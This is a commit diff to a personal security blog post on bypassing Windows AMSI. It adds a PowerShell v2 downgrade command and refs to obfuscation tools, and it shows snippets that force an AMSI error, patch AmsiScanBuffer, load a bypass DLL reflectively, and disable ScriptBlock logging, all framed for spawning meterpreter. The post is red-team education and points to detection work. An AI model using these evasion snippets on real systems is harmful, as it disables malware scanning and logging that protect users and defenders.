

Before and after one commit to phra/phra.github.io, a Jekyll site: the page built from posts/amsi.md, in a window 1280 px wide and 1400 px high, scrolled down 1880 px. Shown: the top 952 px of the window, without its empty margins (106-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
feat: amsi post

````diff
--- a/posts/amsi.md
+++ b/posts/amsi.md
@@ -49,7 +51,7 @@ internal unsafe static AmsiUtils.AmsiNativeMethods.AMSI_RESULT ScanContent(strin
     }
 
 ...
-# call to AmsiScanBuffer()
+// call to AmsiScanBuffer()
 ...
 }
 ```
@@ -58,19 +60,43 @@ The code is pretty descriptive itself and we can already notice some important d
 
 1. if the input is empty, `AMSI_RESULT_NOT_DETECTED` is returned to indicate that the sample is not considered malicious.
 
-1. `AMSI_RESULT_DETECTED` is returned when the content is considered malicious, as we can see from the string comparison with the [EICAR test file](https://en.wikipedia.org/wiki/EICAR_test_file).
+1. `AMSI_RESULT_DETECTED` is returned when the content is considered malicious, as we can see from the string comparison with the [EICAR test file](https://en.wikipedia.org/wiki/EICAR_test_file). [16]
 
 1. if the `amsiInitFailed` field is set, `AMSI_RESULT_NOT_DETECTED` is returned to indicate that the sample is not considered malicious.
 
-1. otherwise the function continues with its detection logic.
+1. otherwise the function continues with its detection logic and calls `AmsiScanBuffer`.
 
-## Known Bypasses
+## Bypassing AMSI
 
-All the known bypasses are based on the fact that the AMSI DLL is loaded in the userspace.
+There are three main ways to bypass AMSI:
+
+1. if PowerShell v2 is available, just use that.
+1. if Powershell v2 is not available, we need to manually disable AMSI using a bypass.
+1. if no bypass is working, use obfuscation.
+
+It's important to note that all the known bypasses are based on the fact that the AMSI DLL is loaded in the userspace.
+
+### Obfuscation
+
+There are some interesting tools that can help us to create (minimally) obfuscated samples starting from a detected `.ps1` script:
+
+1. [PSAmsi](https://github.com/cobbr/PSAmsi): it can detected the exact signatures and generated a minimally obfuscated script that will evade AMSI. You need to run in on a test machine because it will trigger a lot of AV alerts. Check out Ryan Cobb's [DerbyCon talk](https://www.youtube.com/watch?v=rEFyalXfQWk). [13] [14]
+1. [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation): a general purpose PowerShell obfuscator that can apply few different techniques and produce unique, obfuscated samples. Check out Daniel Bohannon [Hacktivity talk](https://www.youtube.com/watch?v=uE8IAxM_BhE). [18] [19]
+
+### PowerShell Downgrade Attack
+
+Why PowerShell v2 is so useful in this case? Because version 2 doesn't have the necessary internal hooks to support AMSI so it's a _win-win_. In order to launch PowerShell v2 we can simply issue the following command:
+
+```powershell
+C:\Users\Public\phra> powershell -Version 2 -NoProfile -ExecutionPolicy Bypass -Command "'amsiutils'"
+'amsiutils'
+```
+
+As we can see, the string `'amsiutils'` is not blocked by AMSI.
 
 ### Forcing an error
 
-If we are able to force an error inside AMSI, the protected field `amsiInitField` will be set and AMSI won't be called anymore.
+If we are able to force an error inside AMSI, the internal property `amsiInitField` will be set and AMSI won't be called anymore.
 
 ```powershell
 $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076) # allocate some memory
@@ -96,11 +122,9 @@ By setting it at `$true` we can successfully disable AMSI and `amsi.dll`'s `Amsi
 
 ### Patching AmsiScanBuffer
 
-It's also possible to _monkeypatch_ at runtime the `amsi.dll` code. In particular, we are interested in patching the function `AmsiScanBuffer`. We can overwrite the logic of this function by making them always return `S_OK`, as when the command is allowed to run.
+It's also possible to _monkeypatch_ at runtime the `amsi.dll` code. In particular, we are interested in patching the function `AmsiScanBuffer`. We can overwrite the logic of this function by making them always return `S_OK`, as when the command is allowed to run. [7]
 
-![AMSI Patch](../assets/images/amsi-patch.png "AMSI Patch")
-
-In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest version.
+In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest `C#` version embedded in a `.ps1` script.
 
 ```powershell
 # Add-Type writes *.cs on disk!!
@@ -155,14 +179,25 @@ iex "[Bypass.AMSI$id]::Disable() | Out-Null"
 Write-host -ForegroundColor green "AMSI won't be called anymore"
 ```
 
-Be aware that using `Add-Type` to compile on the fly `C#` in PowerShell code will touch the disk, dropping some `*.cs` to a temporary directory during the compilation phase.
+Be aware that using `Add-Type` to compile on the fly `C#` in PowerShell code will touch the disk, dropping some `*.cs` to a temporary directory during the compilation phase. In order to avoid to touch disk we need to compile separately the DLL and load it via .NET Reflection:
+
+```powershell
+[Reflection.Assembly]::Load($AMSIBypassDLLBytes)
+[Bypass.AMSI]::Disable()
+```
+
+For more information you can refer to [Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/ScriptModification/Out-CompressedDll.ps1) by [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).
 
 ### Hooking .NET Framework via CLR
 
 Another powerful technique is based on hooking at runtime the .NET Framework via CLR Profiler API, as seen in [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) by Omer Yiar.
 This project is able to bypass all the protection mechanisms of PowerShell, that are Script Block Log, Module Logging, Transcription and AMSI.
+
 Using CLR Profiler APIs, `Invisi-Shell` is able to hook .NET assemblies [10] and disable any kind of protection mechanisms by always overwriting the input length attribute with `0`. As we saw above, if the input is empty, `AMSI_RESULT_NOT_DETECTED` will be returned and the same logic applies to every other security mechanisms.
-The only downside of this techinique is that you have to drop a DLL on disk, in order to be loaded by the CLR Profiler APIs. There are two ways of loading the DLL:
+
+The only downside of this techinique is that you have to drop a DLL on disk, in order to be loaded by the CLR Profiler APIs.
+
+There are two ways of loading the DLL:
 
 1. via ENV variables (**admin required**)
 
@@ -189,6 +224,7 @@ powershell
 
 The PowerShell terminal that appears will have all the protection mechanisms disabled.
 For more info regarding the internals, I forward you to his amazing [DerbyCon talk](https://www.youtube.com/watch?v=Y3oMEiySxcc). [9]
+If you are interested in the detection side, I suggest to check out his other project [Babel-Shellfish](https://github.com/OmerYa/Babel-Shellfish). [15]
 
 ## Weaponization
 
@@ -196,11 +232,13 @@ Let's see how we can use this technique in order to spawn a meterpreter agent on
 We need to do two things in order to do that:
 
 1. disable logging on disk
-2. load the AMSI bypass
+2. execute the AMSI bypass
+
+A ready to use [Invoke-Bypass.ps1](https://github.com/d0nkeys/redteam/blob/master/code-execution/Invoke-Bypass.ps1) script is available on [d0nkeys/redteam](https://github.com/d0nkeys/redteam) repository on GitHub. [12]
 
 ### Disable ScriptBlockLog
 
-First of all, in order to avoid to be detected after having disabled AMSI, we need to be sure that no logs of our commands are saved on disk, otherwise the AV will spot our activity. There is a public known bypass to disable the built-in `ScriptBlockLog` mechanism of PowerShell.
+First of all, in order to avoid to be detected after having disabled AMSI, we need to be sure that no logs of our commands are saved on disk, otherwise the AV will spot our activity. There is a public known bypass to disable the built-in `ScriptBlockLog` mechanism of PowerShell. [17]
 
 ```powershell
 $GPF=[ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','N'+'onPublic,Static');
@@ -224,9 +262,10 @@ It works by doing two things:
 1. disable global logging of scripts: if Domain Admins enable global logging of scripts, every script will be recorded on disk. To disable it we just overwrite the in memory representation of the Group Policy Settings.
 2. replace the dictionary of known signatures with an empty one: some signatures always trigger a log action, even if the Script Block Logging mechanism is not enabled via Group Policy (_sic!_). In order to disable it, we replace this dictionary of known signatures with an empty one, always in our memory space.
 
+
 ### Meterpreter
 
-We can use the bypass to first spawn a meterpreter instance via PowerShell and then to execute any `*.ps1` scripts. A [PR](https://github.com/rapid7/rex-powershell/pull/17) is on its way.
+We can use the bypass to first spawn a meterpreter instance via PowerShell and then to execute any `*.ps1` scripts. A [PR](https://github.com/rapid7/rex-powershell/pull/17) do it automagically is on its way.
 For now, to spawn it we need to generate the stager via the following command:
 
 ```asd
@@ -294,6 +333,14 @@ mimikatz(powershell) # coffee
 meterpreter >
 ```
 
+## Other Resources About AMSI
+
+- [https://www.cyberark.com/threat-research-blog/amsi-bypass-patching-technique/](https://www.cyberark.com/threat-research-blog/amsi-bypass-patching-technique/) [4]
+- [https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) [5]
+- [https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html) [6]
+- [https://rastamouse.me/2018/11/amsiscanbuffer-bypass-part-3/](https://rastamouse.me/2018/11/amsiscanbuffer-bypass-part-3/) [7]
+- [https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/) [11]
+
 ## References
 
 1. [https://docs.microsoft.com/en-us/windows/desktop/amsi/antimalware-scan-interface-portal](https://docs.microsoft.com/en-us/windows/desktop/amsi/antimalware-scan-interface-portal)
@@ -312,5 +359,8 @@ meterpreter >
 14. [https://www.youtube.com/watch?v=rEFyalXfQWk](https://www.youtube.com/watch?v=rEFyalXfQWk)
 15. [https://github.com/OmerYa/Babel-Shellfish](https://github.com/OmerYa/Babel-Shellfish)
 16. [https://en.wikipedia.org/wiki/EICAR_test_file](https://en.wikipedia.org/wiki/EICAR_test_file)
+17. [https://cobbr.io/ScriptBlock-Logging-Bypass.html](https://cobbr.io/ScriptBlock-Logging-Bypass.html)
+18. [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
+19. [https://www.youtube.com/watch?v=uE8IAxM_BhE](https://www.youtube.com/watch?v=uE8IAxM_BhE)
 
 [back](../)
````
Also changed, not shown: other parts of posts/amsi.md (+6 -4 lines).
